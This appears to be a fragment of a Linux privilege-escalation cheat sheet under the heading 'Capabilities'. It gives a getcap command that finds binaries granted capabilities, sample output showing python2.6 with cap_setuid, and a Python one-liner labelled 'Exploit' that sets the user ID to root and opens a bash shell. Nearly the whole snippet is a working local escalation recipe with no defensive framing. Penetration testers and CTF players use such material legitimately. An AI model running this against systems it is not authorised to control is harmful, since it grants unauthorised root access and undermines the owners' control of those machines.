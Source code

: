  ## Capabilities 
 
 
 Type Command
 
    getcap -r / 2>/dev/null
 
Output
 
       /usr/bin/python2.6 = cap_setuid+ep
   
   
Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   

